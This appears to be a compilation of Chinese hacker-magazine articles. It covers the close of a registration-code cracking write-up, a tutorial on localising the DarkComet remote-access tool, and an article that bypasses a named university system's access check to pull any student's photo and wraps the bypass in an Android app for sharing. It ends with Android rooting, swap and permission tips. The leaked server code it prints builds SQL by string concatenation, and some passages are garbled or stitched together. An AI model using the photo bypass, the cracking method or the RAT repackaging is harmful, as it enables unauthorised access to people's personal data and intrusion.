004DF893    3B45 A8        cmp     eax, dword ptr [ebp-58] ; 第十五到第十八位的结果要等于第十九位

004DF896 >  75 04          jnz     short ... ; 不等就跳
004DF898    C645 F7 01     mov     byte ptr [ebp-9],1 ; 全局注册标志
004DF89C >  33C0           xor     eax,eax
004DF89E    5A             pop     edx
004DF89F    59             pop     ecx
004DF8A0    59             pop     ecx
```


图17

> **小结：**

所以我们用注册机最后得出的注册码是 `LH4A8N'w#~J&4T!!9A`。重启程序，输入 `LH4A8N'w#~J&4T!!9A`，弹出成功注册提示，见图片18。由图片18可知，程序还有重启验证。当注册码通过以上验证的时候，会将其保存在注册表中，这在一定程度上阻止了爆破。

但是在整个验算过程中，用户名并没有参与验算，而且也并没有取机器特征码，导致了多机一码的情况出现。我认为这是一个失败之处。不过这个程序用来练习算法、考验耐心是最适合不过的了。至此文章就写得差不多了；由于第四段验证的代码太长，所以只说明了主要部分，详细的分析我都注释在代码上了，大家可以去看看。


图18

最后，小菜祝大家新年快乐，来年大吉！！！

# 软件汉化之菜鸟入门三部曲

BackMouse

## 软件汉化之前言篇：简介！

首先我们要理解为什么要学习软件汉化。

我个人的理解是这样的：网上很多黑客工具（特别是被汉化或者破解过的工具），大多数都被插入后门、病毒或木马。而我们使用黑软时，一般情况下总是要把黑软添加到杀毒软件的信任列表。就这样，当你使用这黑软后，自己的机器也被添加上了一道后门！

还有就是国外的很多软件值得我们一用，可是对于不懂英文或者懂英文而不习惯用英文的朋友来说可是一件苦恼的事情！

其次，我来介绍下资源这个名词。

软件界面上的各种文字、图像、图标、文本等，在程序编写的时候根据特定的格式进行分类，然后存放到软件里面。编写过程序的可能知道，例如我们在软件窗口添加一个按钮控件，这个控件的属性会有标题、图标、风格等，这些组成的特定的格式就叫“资源”（Resource）。

软件资源又分为标准资源和非标准资源（简称非标）。标准资源通常可以通过PE类资源查看工具（如：PE Explorer、ResScope等）可视化查看编辑（VB除外），而非标准资源目前还无法实现可视化预览。

特别注意的是VB程序资源比较特殊，上述分类概念不适用，但汉化人一般把VB窗体汉化器等提取的窗体资源称为标准资源，而通过点睛字符替换器提取的VB字符串、Unicode字串和ASCII字串均称为非标。

常见的标准资源通常有Bitmap（位图）、Menu（菜单）、Dialog（对话框）、String（字符串）、RCData（RC数据）、Cursor（光标）、Accelerator（加速器）、Icon（图标）、Version（版本）、Toolbar（工具栏）、Form（窗体），其中RCData多见于Delphi程序中，Form多见于VB程序中。

非标资源主要包括ASCII字串、Unicode字串两大类。标准资源汉化后，在软件界面或调用信息时显示，但又不出现在上述标准资源中的字串多数属于非标资源。

好了，说了那么多，我们还是来做今天的任务吧！我今天来汉化的软件是DarkComet（一款远控软件）。相信不少朋友也用过，DarkComet比中国的远程控制软件功能和性能强大得多。可是官网现在是V5英文版本，而网上只有V4汉化版的。那么我们不懂英文就只能用V4低级版的吗？不！谁不想用最新版本啊！

求人不如求己，我们干脆自己打造出一款属于自己的汉化版出来！

工欲善其事，必先利其器，汉化软件当然是必不可少的。我向大家推荐三款工具：Restorator、ResScope和WndSpy（一款侦探窗口的工具）。那么我今天就来教新手如何使用这三款工具来汉化软件。

### 汉化三部曲之第一部：Radialix全自动翻译功能的使用！

首先我们打开Radialix，软件的界面图如下（如图1）。大家看到这么多选项按钮不要慌，我们今天只是来学习软件的简单汉化。


图1

点击“编辑器”窗口中的“本地化方案”。出现如下界面（如图2），我们添加一个要汉化的软件，我这里以DarkComet为例。弹出一个文件属性对话框（如图3），大家不要管它，默认就行。回到我们的“方案”窗口，添加一个目标语言，我这里是英文。点击下一步，然后点击完成。


图2

这时Radialix已经加载了我们的文件了，我们可以在“方案管理器”窗口展开原始资源，进行手工修改各个软件控件属性，当然，我们现在是用Radialix自带的全自动汉化功能，就先不管它。


图3


图4


图5


图6

文件加载后会有个“编辑器”窗口，这里的资源翻译默认值还是英文。我们右键单击“翻译（英语（美国））”，然后选择“语言属性”，在弹出的对话框中把语言设置为“中文简体”。接下来随便打开一个资源看下，是英文的（如图4）。那好，我们现在就对整个资源进行翻译。我们要翻译全部内容，首先要点击“方案管理器”中的“中文（简体/中国）”才能进行全部翻译。接下来我们点击菜单栏的“翻译”按钮，再点击“使用谷歌翻译器翻译全部”，此时已经开始自动翻译了（如图5）。

好了，已经完成了，再看看我们刚才查看的窗口，已经变成中文的了（如图6），谷歌汉化的还挺标准的。

那么，我们翻译完成之后怎么保存呢？这里不是点击“文件”--“保存”按钮，而是点击“翻译”--“构建全部”，完成后我们重新打开软件，是不是变成中文了？

### 汉化三部曲之第二部：Radialix手动修改资源！

不要高兴得太早了，还没玩呢！谷歌翻译只是一个工具，它就算翻译得再好也比不上人！现在我们就来手动修改资源属性！还是刚才那个资源窗口，大家再看看，窗口里面的“URL必须是一个.exe扩展名！”是不是很绕口，我们来动手改一改！大家直接在窗口中点击那个Label（文本标签）控件，就是那一串字符，这时在“编辑器”窗口下方自动定位到了字符串的属性栏目（如图7）。可以看到“原始（英语）”项目里的内容就是窗口中的内容，我们可以在后面的“翻译（中文（简体/中国））”里面修改为我们自己想要的字符串，比如“URL必须是一个可执行EXE文件！”。我们再看看（如图8），咦？我们写的字符超出了窗口，怎么办啊！呵呵，不用担心，我们可以直接用画图的思维来调整下窗口，我们把窗口拉长一点，再看看（如图9）。OK！完美！太酷了！（PS：汗~！）


图7


图8


图9

除了像上面方法修改外，我们还可以在“编辑器”窗口的“资源”标签中进行修改。这个窗口很详细地把各个资源进行了分类（如图10），其中需要翻译的内容用荧光文字表现了出来，蓝色的文字表示我们已经翻译过，灰色的表示我们刚翻译，红色的表示我们未翻译。一般需要翻译的内容有“Caption”“Text”属性，其他的一些属性有字体颜色、控件位置、控件大小等等，这个可以根据自己的想法进行修改。


图10

好了，第二部曲就到这里了！

### 汉化三部曲之第三部：ResScope和WndSpy的使用！

还记得前面我推荐的ResScope和WndSpy吗？它们当然不是傻呆在那里看我们汉化的，是我推荐的当然有用啦（PS：真不要脸）！

在使用Radialix构建全部资源后，Radialix会提示我们软件随机添加了一些字符（如图11）！这是由于我们的软件没有注册，故意给我们一些脸色！


图11

我们来看下它给我们添加了些什么，还是我们刚才那个窗口，看下（如图12），“产生”被改为“产生.vlj”了，其他地方也添加了很多字符，气愤啦！那我们怎么办呢？


图12

这时我们首先打开我们的软件，其次打开WndSpy。我们将WndSpy中的一个小图标拖动到我们的软件窗口上（如图13）。松开鼠标后我们就可以看到WndSpy已经加载了窗口的信息！我们记住“窗口类名”后面的属性：TFrmDownloader。


图13

忘了说一个东西，当我们把Radialix把软件汉化后，软件目录中会自动生成一个与软件同名而后缀是“CHS”的文件，这个就是汉化后存储的中文资源。删除它后我们软件还是原版的，所以我们现在要修改应该修改它的资源。

我们打开ResScope，把.CHS后缀的文件拖进去，ResScope就会加载我们的资源了。我们展开“资源窗口”的KCData（KC数据，开始已经介绍过），还记得我们刚才用WndSpy记录的窗口类名属性吗？我们在ResScope的KCData中找到这个类，并点击它，这时右边的窗口会加载它的资源。我们在其中找到“产生.vlj”（如图14），我们把它的“.vlj”去掉，然后点击“文件”--“更新所有资源项”，然后关闭ResScope，再打开我们的软件看看，这时“产生.vlj”已经恢复成“产生”了（如图15）。


图14


图15

前面用到WndSpy时，为了方便我们快速地找到资源属性，在Radialix添加的随机字符串过多时，它能帮助我们很多！

## 软件汉化之完结篇：不要随便修改字符串资源！

在这里，我们想提醒下，对新手来说，软件中的字符串资源最好不要进行汉化，为什么呢？我来用Delphi编程举个例子：

```delphi
// 当软件被创建时发生以下情况
if chr='Function is close!' then
  // 自动开启功能
else
  // 跳过开启功能;
```

这里当我们前面chr的值汉化后，它就变成了“功能关闭！”，而这时软件会把“功能关闭！”与“Function is close!”进行对比，这当然不正确啦！所以软件就执行跳过功能开启部分，所以我们会遇到字符串资源汉化后软件功能丢失，或者软件出错等！

本人英语不咋地，上面的举例英文不知道正不正确，所以请见谅哈！上面只是一个举例，实际情况各有不同！好了，该和大家说再见了，相信大家已经在本文中学会了汉化软件。希望大家多多汉化国外资源，发布到网上共享，让我们一起使用！

## 打造Android头像查询器

Rejctor

本文最初的念头来自于一次小小的恶作剧。在我们学校里，每个人都有一张校园一卡通，上面有每个人的照片。这个照片是高考报名时照的照片，大家都知道，一般来讲证件照都是很挫的，于是就勾起了我的好奇心。

后来我发现在学校的教务管理系统里也有这张照片，如图1，看看照片处的代码：

```html

```


图1

补全照片的路径，即为：

```text
http://jxgl.hdu.edu.cn/readimagexs.aspx?xh=10051517
```

访问一下，如图2，访问违规了，看来这里还有访问限制的。后来我搞到了这一部分的ASPX.NET代码（这部分不是本文的重点，略过），来看看关键部分的代码：

```csharp
string s1;
string s3 = Request.QueryString["xh"];
if (StringType.StrCmp(Request.QueryString["lb"], "xsdzcxx", false) != 0)
{
    string s2 = StringType.FromObject(Session["Username"]);
    if (StringType.StrCmp(Module1.Sjfg.GetStr("select yhm from yhb where yhm='" + s2 + "'"), "", false) == 0)
    {
        if (StringType.StrCmp(s2, s3, false) != 0)
        {
            Response.Redirect("~");
        }
    }
}
mtp mmtp = new mtp();
OracleConnection oracleConnection = new OracleConnection(ConfigurationSettings.AppSettings["MyConn"]);
mmtp.a1em1(ConfigurationSettings.AppSettings["MyPwd"], mmtp.Str_n);
if (StringType.StrCmp(Request.QueryString["lb"], "xxgsq", false) == 0)
{
    s1 = "select zp from xszpsqb where xh='" + s3 + "'";
}
else
{
    s1 = "select zp from xszpb where xh='" + s3 + "'";
}
OracleCommand oracleCommand = new OracleCommand(s1, oracleConnection);
oracleConnection.Open();
OracleDataReader oracleDataReader = oracleCommand.ExecuteReader();
while (oracleDataReader.Read())
{
    Response.OutputStream.Write((byte[])oracleDataReader["zp"], 0, 1048576);
}
oracleDataReader.Dispose();
oracleConnection.Dispose();
```


图2


图3

既然这样，`lb` 的值等于“xsdzcxx”就可以了。试试访问 http://jxgl.hdu.edu.cn/readimagexs.aspx?xh=10051517&lb=xsdzcxx，如图3，果然访问到了我的头像。


图6


图4

正好做个工具放在手机上给同学们玩。打开 Eclipse，如图4、图5，然后一路 Next 就可以新建一个 Android 工程。如图6，双击项目下的 res\layout\main.xml 即可设计软件的界面，在窗体上放一个 ImageView 控件、一个编辑框、一个命令按钮，ID 分别为 imageView1、editText1、button1，如图7。


图5


图7

因为这个程序需要网络的支持，所以还需要在 AndroidManifest.xml 文件中加一句申请权限的语句：

```xml
<uses-permission android:name="android.permission.INTERNET"></uses-permission>
```

我来简单地解释一下这段代码，s3 为 xh 参数，即学号；s2 为 Session 中 username 的值；s1 为要执行的 SQL 语句。把 lb 参数的值和字符串“xsdzcxx”比较，大小写敏感，如果不相等则比较 xh 参数的值和 Session 中 username 的值是否相等，如果不相等则访问违规，然后再判断 lb 参数是不是“xxgsq”，如果是的话则查询 xszpsqb 表，不是的话则查询 xszpb 表。

src\My.namespace\PhotoHDUActivity.java 即为程序要执行的 Java 代码，首先定义三个控件所对应的对象，并与控件相关联：

```java
Button button1;
ImageView imageView1;
EditText editText1;
```

```java
button1 = (Button)findViewById(R.id.button1);
imageView1 = (ImageView)findViewById(R.id.imageView1);
editText1 = (EditText)findViewById(R.id.editText1);
```

程序因为要从网络中下载图片，所以还需要这样的代码：

```java
protected Bitmap getBitmapFromURL(String sUrl) throws IOException {
    URL url = new URL(sUrl);
    URLConnection conn = url.openConnection();
    conn.connect();
    InputStream is = conn.getInputStream();
    BufferedInputStream bis = new BufferedInputStream(is);
    Bitmap bm = BitmapFactory.decodeStream(bis);
    bis.close();
    is.close();
    return bm;
}
```

我们需要在按下按钮的时候处理动作，所以要再加上处理按钮事件的代码：

```java
button1.setOnClickListener(new OnClickListener() {
    public void onClick(View v) {
        try {
            String url;
            String xh;
            xh = editText1.getText().toString();  // 获取编辑框里的内容
            url = "http://jxgl.hdu.edu.cn/readimagexs.aspx?lb=xsdzcxx&xh=" + xh;  // 整合图片地址
            Bitmap bitmap = getBitmapFromURL(url);  // 下载图片
            if (bitmap == null) {
                AlertDialog.Builder Msg = new AlertDialog.Builder(this);
                Msg.setMessage("学号出错");
                Msg.setTitle("醒哥友情提示");
                Msg.create();
            } else {
                imageView1.setImageBitmap(bitmap);
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
});
```


图8

接下来选择菜单“Windows”-“AVD Manager”来建立一个安卓虚拟机，如图8。建立完成后选择菜单“Run”-“Run”来运行程序，如图9，运行很成功。

选择菜单中的“Android Tools”-“Export Signed Application Package...”，如图10，选择打包成APK格式，就可以和你的同学们一起分享了。

# 让安卓应用奔腾在电脑之上

Evan

智能手机发展得如火如荼，Google也忍不住插上一脚，推出其开源的Android系统。如今推出了Android 4.0，命名为Ice Cream Sandwich（简称ICS，冰淇淋三明治），统一智能手机和平板电脑系统。也就是说，平板电脑和智能手机都是同一个系统。同时还有界面更新等10大新特性，给我们带来了更好的操作体验。

但如今搭载Android 4.0的产品未大量上市，想体验安卓系统及应用吗？

不过友子们要是有兴趣的话，可以在网上搜旧版试用体验。

## 初级篇

这里给大家介绍一个软件——BlueStacks App Player。从软件的名字大家就能猜出软件的大概功能。没错，就是在电脑上运行Android系统上的应用。不过这款软件暂时还处于Beta阶段，目前只能在电脑上运行特定的应用。

但由于目前试用阶段已经结束，正努力开发新版本以解决占用大量系统资源等问题，无法在官网下载到最新版本，故不在此详细介绍。

## 高级篇

谈到模拟器，大家一定不会陌生。这里要说的便是Android模拟器了，能和开发工具很好地结合在一起。和BlueStacks App Player有一样的缺点，就是占用大量系统资源。不过相对于BlueStacks，模拟器还是比较好的。我们先进入Android的官网（developer.android.com/sdk）下载Android SDK（有绿色及安装版本，建议下载绿色版），接下来我们还需要下载JDK。请大家到网上搜索并根据自己电脑系统来下载。

先安装JDK，安装完成之后再打开SDK Manager（若是安装版请安装后运行），界面如图1。我们在打开的窗口来选择要模拟的版本，我们这里就选择最新的Android 4.0.3。在左侧窗口勾选上Android 4.0.3，接着点击“Install Package...”。接下来再在弹出的窗口右侧选择“Accept All”后点击“Install”按钮（图2）。模拟器就会开始下载我们所选择的版本并安装，我们只要等着它安装完成即可。

待Status栏的“Not installed”变成“Installed”时，我们就可以进行下一步操作了。选择工具栏上的Tools→Manage AVDs...，在弹出的窗口点击“New”开始新建Android映像。界面如图3所示，Name就随便填，Target选择我们下载的版本即可。SD Card假若只是玩玩就不用选择。如果需要安装大量应用当手机玩的话，请看文章末对于SD卡映像的介绍。Snapshot即为快照功能，我们无须去选择。Skin通俗点说就是调节模拟器屏幕大小的，想要平板般大小就选择WSVGA。

俗点说就是调节模拟器屏幕大小的，想要平板般大小就选择WSVGA。不过屏幕大了是会变卡的，欲使用手机般屏幕大小就保持默认。点击“Create AVD”创建新映像，选中后点击右侧的“Start...”，再选择“Launch”即可。第一次打开是需要比较久的时间，请耐心等待。

等了许久终于好了，界面如图4所示。现在我们可以直接从模拟器中下载丰富应用了，模拟器是会自动使用宿主机的网络进行连接。也可以通过模拟SD Card来实现。我们打开CMD，进入到android-sdk目录下的tools文件夹，执行 `mksdcard -l sdcard 1024M sdcard.img` 命令来创建一个大小为1024M的SD卡映像。我们添加文件到SD卡中也是需要通过命令来执行的，不过这样操作比较麻烦，所以我建议大家使用UltraISO来操作SD卡映像。用UltraISO打开刚刚创建的SD卡映像（如图5），我们在下方找到文件并拖放至映像文件中，保存后即可完成添加文件操作。

好了，我们现在就可以畅享Android带给我们的无限乐趣了。在以后的杂志会介绍Android系统更为高级的运行方法，会比目前所使用的方法速度快得多哦！

# 云端天下

## ——免费畅爽体验Android手机

Evan

如今随着移动终端的迅猛发展，移动市场已然成为一块香饽饽。每个IT大佬都想来分一杯羹，Google推出了Android系统，微软推出ARM版Windows 8及全新的Windows Phone系列。反观我们国内这边，诸如推出自己的系统等大动作是依旧没有的。不过国内IT界的大佬乃至与IT沾不上很大边的企业们也都开始推出自己的手机（比如说阿里云手机、海信手机一类的），试图以终端来抢占市场。但残酷的现实告诉我们终端是无法抢占市场的，唯有应用才能拯救世界。腾讯的Q Plus便是开放自己的平台让开发者参与进来的例子，如今百度也做了这样的事，而且顺势推出了易平台。该平台是基于Android之上，不过都换上了百度的服务。我们学黑的汉子也应该顺势而上，转移平台，往移动方向发展，开创出一片新领域，把黑客精神发扬光大。

我们再来说下云服务。其实微软很早就开始提云，但在国内真正普及、企业覆盖面广的云服务还是百度。如今百度再进一步，推出了百度移动云测试中心。以云为基础来提供云体验及云测试，为开发者提供了更为方便的应用测试服务。毕竟模拟器再怎么模拟也是模拟器，还是代替不了真机测试的。但是对于我们这种非开发者来说，好处就是我们可以通过浏览器来体验Android，不再需要下载模拟器来体验了，免去一切繁琐步骤，极速畅爽体验Android的魅力。

我们与开发者的关注点不一样，我们只是借助云服务来体验Android的魅力。同时我们也可以在百度云体验服务提供的云真机上测试一些不安全的应用或者做些其他的事情。不过呢，在我们进行体验Android之前，是需要做些准备。首先便是浏览器的要求：IE版本最低为7.0，Firefox版本最低为4.0，Chrome版本最低为12，且同时需要安装Flash 9以上。说了这么多，其实大家大部分应该是已经满足此类要求的，不需要去顾虑太多。除此之外我们再注册个百度开发者账号就可以了。

我们进入百度移动云测试中心（http://mtc.baidu.com，如图1），点击右上角的注册按钮，按页面要求填入相关信息注册好之后，用注册好的账号登录百度移动云测试中心，我们便可以开始云体验了。点击页面中左方的“云体验”，便转入选择体验机型的页面，如图2。当前百度共提供Dell、HTC、Google Nexus及摩托罗拉等品牌的12台云真机。所谓云真机，便是我们操作的是真实的手机，所有体验都是真真实实。不过呈现方式变为了浏览器显示罢了，但浏览器的显示效果也不亚于真机了，体验是很不错的。

这里我选择了摩托罗拉的戴妃（即摩托罗拉ME525（Defy）），我们点击“立即使用”就可以开始体验了。同时我们还可以预约设备，以避免我们需要使用该云真机的时候因使用人数过多而无法立即使用。点击“立即使用”转入如图3页面，我们可以在该页面看到一个界面和戴妃一模一样的手机。我们现在就可以开始体验“云真机”了，是不是很简单，是不是很爽。

我们在页面的左侧可以看到一系列的控制操作及使用帮助。如果我们需要安装Android应用，点击“安装”，在弹出的窗口内选择我们所要安装的应用。待应用上传完毕就会自动开始安装了，之后我们就可以畅爽体验Android平台下的万千美妙应用了。其余的就不多说了，大家都知道的。我们可以通过画质调节按钮来调节画质，不过这个还是要依据我们的网速来调节的。右侧有一个记录窗口，用来显示当前机子的实时状况。不过还有一点我们需要注意的是，每次使用云真机可以使用30分钟，但这一点儿也不影响我们的体验。

## 玩转Android全攻略（一）

丁济邦

### 序章：

由于刚上高中的原因，离开了《X》有一段时间，一年了，小衰我没买黑X，貌似我们这里几乎没有买这种杂志的。直到某一天我路过了初中旁边的那家报社（记得初中月月在这里买，每次快到月末天天吵着那位“大哥”……）想起了《X》，不由得鼻头一酸。为了适应可怕的高中，放下了电脑……“大哥”看到了我，“哟，好久不见。”“是啊，貌似你们还卖《X》吗？”“早不卖了，我只给你订呢……”我心里泛起一阵暖意，“那么，从这月开始，继续给我订，我月末来取。”“好，来的话我也不给摆上去，留下你电话吧……”，简短的对话……

月底了，那位大哥打电话真的是时候……尼玛我上课呢，只听一阵短暂而又急促的铃声……我震惊了……老师走了过来，伸出了手，那意思就是“不用说了，自己拿来吧”。顺便一提，我们学校上课是不让开机的，开机的会没收的说……于是我淡定地拿出了手机，淡定地打开屏幕，淡定地画了个打开某个程序的手势，又淡定地给老师说：闹钟……

书是买下来了，发现和以前没有什么变化，这倒是给了我一阵欣慰。淡定地打开扉页……纳尼？Android手机？还有这个版面……好版面啊，我手一滞，于是投了篇稿。这篇文章呢，就是安卓的一些操作，并不是讲编程或者开发。说简单的确简单，说难某些方面也很难，总之一句话，大牛路过……

### 正文：

### 1. 什么是Android？

答：安卓不仅仅是图标，更是一种精神。

### 2. Root

我真的不会告诉你们其实我用的只是很垃圾的V880而已。好了，现在手机到手了，我的这款手机是和联通定制的，于是各种什么“3G”的、什么“服务”的程序接踵而来，简直别扭爆了！估计大家知道系统的APP是删除不了的……而且，我使用的是移动卡，然后每次开机听着蛋疼的声音“欢迎使用WO”，接下来弹出个“轻松有我神州行”。囧，这简直是噩梦啊……所以呢，我们要删除那些没用的程序。我推荐两款软件：“SystemAppRemover”和“安卓优化大师”。我比较青睐前者，但是出于中国人，咱还是使用后者吧……我们进入“软件-安装卸载-系统减肥”，看见了那些万恶的Apps（如图1），选之，删之……纳尼？权限不足，这时候突然弹出这个对话框……这该怎么办？其实，只要我们拥有Root权限即可删除了。

众所周知，Android系统是Linux系统Java框架的。既然是Linux系统，那么拥有Root就不足为奇了。Root呢，是个神奇的东西，它不但是一种权限，更是一种精神，也是我们梦寐以求……跑题了。Root就像Windows中的Administrator一样，都是最高权限。总之谷歌不可能给你这么高的权限的，我们现在的权限仅仅是个小Guest，所以我们只能自己动手了。

我们开始下载一款名为Z4Root.apk的软件，安到手机上。至于怎么安装呢，就是把你手机拆开，然后把Z4Root用不干胶粘上即可……打开界面，一阵小清新“蓝蓝的”“白白的”……咔！谁呼我？额，对了，继续。我们点击temp Root，也就是临时Root。具体它是怎么提权的我也不知道，我也不是学这方面的。还有永久Root，这里有个误区，就是有的人上来就点击永久Root，这种做法是错误的。永久Root需要Root权限，而我们没有Root权限就不能永久Root。

好了，接下来会出现一堆鸟文，然后边上一个蛋疼的圈圈在转，理论上30秒足够了（如果你的圈圈还在转，那么说明失败了，你就是等一天，那个圈圈还会转下去的，至于方法呢，一会儿教大家）。过了一会，显示Root成功。接下来我们按永久Root，这时候会弹出一个对话框，显示Z4Root想要获取最高权限，是否给予，当然选“是”。好了，又是一阵蛋疼的圈圈之后，过了一会黑屏了……不要误会，是重启。一阵“极速”重启后，打开程序列表，如果显示如图2所示的图标，那就说明你Root成功了。

（其实也不是什么方法，还有比这个还牛的ADB刷法，pass~）。好了，我们拿下了第一步Root了，接下来我们就可以给系统减肥了。

如果失败了也不要丧气，请重新试一遍，实在不行请换个软件试试。反正我的V880用z4Root不成功，我用的是visionary+这款软件成功的。不过如果失败了而换用其他软件的话，请在使用失败的软件里点击unRoot这个选项，因为不同软件的Root方法可能会有冲突。如果还是失败，那我们只能用终极办法了，这个稍后再说。

好了，我们掌握了系统文件的保留和删除。当然，不能都按我的手机列表一样，如果是其他的什么服务什么的请慎重，建议先备份！现在我们系统可以加速了！

### 3. 减肥

经过各种方法后，我们终于弄到最高权限了。我们接下来就要大开杀戒了，什么“3G”的、什么“服务”的程序全部Delete~。这里我介绍“安卓优化大师”这款软件，进入“软件-安装卸载-系统减肥”，弹出免责声明。这个建议看看，因为我发生过一点小故事，大概就是我和同学吹牛说我能把系统卸载了，他们不信，于是我就把那个“Android 系统 0.0KB”勾选，然后卸载了……过了一会提示卸载成功……额，就这么成功了。然后突然冒出一堆乱码的对话框，点击确认，退出到桌面了，壁纸变成了系统预设的，然后……点屏幕，点什么都没响应，果断重启，然后悲剧了——再也开不开机器了，永远停留在第二画面……同学们满足地走了，然后我就像兔斯基那样张个嘴巴……就是这样，反正就是告诉大家不要太好奇，不要把系统文件给删除咯。我查了查我自己手机，列出个列表：

- Android系统、Certificate Installer、TTS Service、软件包访问帮助程序、HTML查看器、打包安装程序、虚拟专用网、设置、状态栏、（授权管理）、Pico TTS等，这些为系统必要文件，不能删除。
- Bluetooth Share、通讯录、启动器、拨号器、相机、信息、音乐、图库、浏览器等，这些文件虽然可以用其他程序代替，不过为了系统稳定建议别删。想想如果你的GO短信哪一天挂掉了，短信还让你删掉了，那太可怕了……
- 计算器、日历、通讯录、时钟、电子邮件、FM收音机、主屏幕提示、SIM工具包、语音拨号器、Android动态壁纸、文件管理器、User Dictionary、录音机、搜索等，这些程序有木有都一样，所以可以删除。

### 4. 虚拟内存

众所周知，安卓简直就是个内存老虎，光开机就需要100多MB的内存……那么我们该如何优化呢？那就是虚拟内存，也叫内存交换，和Windows的虚拟内存是一个性质。一般情况下在安卓下有两种方法：

- 一种是在内存卡中格式化出一个Linux Swap分区，再通过终端命令让系统识别并使用；
- 另一种是使用软件在内存卡中建立一个文件，让这个文件充当交换。

这种方法虽然简单，但依赖BusyBox并且开机自启动，且读写内存卡会影响性能和寿命。把交换文件放到手机自带存储空间理论上更快，但路径和权限设置常失败。最终还是需要BusyBox工具箱配合相关命令来实现。

成的工具箱，安卓也有这个，我们需要下载BusyBox，具体方法该不赘述，脚本具体如下：

```bash
CreatIMG.sh

mount -o remount,rw /system;

#（将手机某个目录改为读写，其中 /system 可任意更改，只要空间足够、权限足够即可）

dd if=/dev/zero of=/system/swap.img bs=1024 count=60000;
#（创建约 60MB 的交换文件，后续转 IMG 格式，大小可自由选择，建议不要太大）

busybox losetup /dev/block/loop7 /system/swap.img

busybox mkswap /dev/block/loop7;

busybox swapon /dev/block/loop7;
```

```bash
AutoStart.sh

mount -o remount,rw /system;

busybox losetup /dev/block/loop7 /system/swap.img;

busybox mkswap /dev/block/loop7;

busybox swapon /dev/block/loop7;
```

就是这两个文件。第一个请将文件放入你要生成文件的地方并且运行，安卓可以直接运行.sh文件。若自带文件管理器不能运行，可使用RE管理器（Root Explorer）。

第二个文件请放入 `/system/etc/init.d` 这个文件夹，里面文件如图4所示。

我讲一下为什么放这里。其实这个文件夹里有几个文件，这些文件都没有后缀，开机时系统会按顺序自动执行里面脚本。将AutoStart.sh代码复制到userinit里，重启后打开终端模拟器，输入 `free` 查看内存剩余，手机显示如图5。

看得出来，我的手机建立了44496KB的swap内存，使用了8548KB，剩余35948KB。这说明建立成功。

### 5. 虚拟内存的善后

可能有的人会发现虚拟内存使用率太低，或太高导致程序频繁往swap页面搬运，切换程序变慢。关键参数是swappiness：

- swappiness=0 表示尽量使用物理内存后再用swap；
- swappiness=100 表示积极使用swap。

安卓默认大概在30~60之间。

废话说完了直接进入主题，操作方法是这样的：

- 进入超级终端输入命令：  
  `cat /proc/sys/vm/swappiness`  
  不出意外应看到30~60之间的值。
- 用RE浏览器进入 `/system/etc`，编辑 `sysctl.conf`，在文档末尾加一行：  
  `vm.swappiness=0`  
  然后保存。
- 重启，重复第一步查看设置是否生效。

当然，swappiness需根据你开的swap大小和手机内存自主决定。设置后若仍出现后台程序被回收、应用重载等情况，原因涉及安卓内存管理机制。

到了内存，可能你会纳闷——我明明开机到现在一直都没有运行过这个程序，怎么会有呢？其实安卓的内存管理机制不像 Windows 中那样运行一个程序就把数据加入内存，而安卓会自动把你常用的程序的数据加入内存，这样你打开这个程序速度会变快一些，这种程序叫做“空程序”。但是，谷歌好心却做了坏事……那么我们如何使用“软”的来让安卓不把空程序加载到内存中呢，这就需要我们了解低内存管理机制……

这里我们还是使用“安卓优化大师”这款软件，我们进入主界面，选择工具箱，在我的插件里面选择“内存管理”，第一次使用需要下载，不过文件不大，进入后如图6所示……在“手机重启后是否自动应用设置”里勾选，好了，这回不会掉线了！


图6


图7


图8

这些都显示这款软件所涉及到的权限，可能很多人会置之不理，直接点击安装，这样做是灰常不对的；想想，一款根本用不到网络的程序却拥有着完全访问互联网的权限……所以，我们如何给程序指定权限呢？其实我们不需要什么软件，只需要一个功能——权限管理……

### 6. 浅谈安全机制

每种手机系统都有自己的安全配置，从山寨机的手机锁到塞班的签证，从 JAVA 的信息保护到安卓的权限管理，都有自己的套路。我们在这小章来研究一下安卓的权限管理。大家安装一款软件的时候总是会发现如下的信息（如图7、图8）。

我们打开设置-应用程序-管理应用程序，随便选择个程序，比如手机 YY，点击后如图11所示。


我们向下翻，看见了权限这一栏，显示着“此应用程序有权访问手机上的以下内容：…”，我们看见了有很多权限，比如其中一项——完全的互联网访问权限（android.permission.INTERNET），我们用手指点下去——咔，那行文字拥有了删除线，如图12。你们懂的，邪恶的删除线……好了，我们打开 YY 试一下，果然，权限被撤销了，程序挂掉了（看来连 Error 保护措施都木有啊，好弱，不过人家也不会想到我拿它当小白鼠的说~），如图13所示。这样，我们就可以自己动手来修改程序权限咯（当然，一般的程序不会想到自己的权限被撤销，所以挂掉也很正常）。以后安装程序也要多注意一下这些问题，否则你的卡啊、流量什么的不小心被……那可不好。


### 7. 待续

其实写到这里我还没有想停下来的感觉，因为安卓太深奥了，以后再写其他好玩的东西。我可以承认我只是个菜得不能再菜的菜鸟，我写的可能没什么含量，也没什么黑客技术、没什么编程（刚上高一，感觉这里有点吃力，我 C 学得不怎么好，于是 JAVA 就被牵连了……），不过我只是想让各位使出个“智能机”的样子来。但是我有句话还是想和大家说——手机永远都是手机！是的，可能刚接触还是有新鲜感，但是不要太“玩弄”你的手机。就像我写的虚拟内存那些，其实还有很多类似于 APP2SD、超频了……我只是想告诉大家，要把手机当成手机用。希望大家不要沉溺于超频的刺激、刷机的快感……由于我记性不好，忘记了论坛的 ID，所以如果有志同道合的请加我 Q1406547525，我是爱，欢迎广大朋友和我交流。

（文中涉及的相关程序本期光盘已收录）

## Android手机

电脑换了，研究 QQ；手机换了，系统 Android 2.3.4，怎么玩得跟上时代啊，玩玩微信吧（版本3.5.1）。对于把电脑当老婆的我来说，和人聊天真是要人命啊，还是去漂流瓶里逛一下。也是倒霉，捡捡瓶子就碰见素质低下的人了，怎么脏话都上来了！果断删掉。结果在一次整理 SD 卡的时候，无意发现了一个文件夹“sd卡:\Tencent\MicroMsg\后面一堆数字与字母组合\voice”，这个文件夹容量居然 15MB 多，打开一看都是 amr 格式的文件。我记得聊天记录都删掉啦，怎么还有这么多？于是逐一打开文件，竟然还有那条脏话语音。难道微信竟然没有删掉？于是我将好友的聊天记录全部删除，悲剧的是语音竟然还全部存在（如图1）。

